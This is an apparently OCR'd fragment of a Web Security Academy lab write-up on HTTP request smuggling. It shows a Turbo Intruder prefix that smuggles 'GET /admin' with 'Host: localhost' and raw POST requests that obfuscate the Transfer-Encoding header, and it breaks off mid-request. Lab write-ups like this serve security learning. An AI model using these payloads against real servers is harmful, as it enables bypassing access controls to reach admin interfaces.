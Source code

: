 `
```
                   </header>
                    <header class="notification-header">
                    </header>
                    Admin interface only available to local users
                </div>
            </section>
```
`


-----
_Now turbo truder looked like this:

>    # This will prefix the victim's request. Edit it to achieve the desired effect.
`prefix = '''GET /admin HTTP/1.1
`Host: localhost
>
`x=x'''
>
---

And three successive requests did it:

1.

---

POST / HTTP/1.1
Host: acb01f791f358360c0f7901000650001.web-security-academy.net
Cookie: session=eu4TfRuSOBg8KLcGj6LaQE6C3gVsh6Ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
0


2.

---

POST / HTTP/1.1
Host: acb01f791f358360c0f7901000650001.web-security-academy.net
Cookie: session=eu4TfRuSOBg8KLcGj6LaQE6C3gVsh6Ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
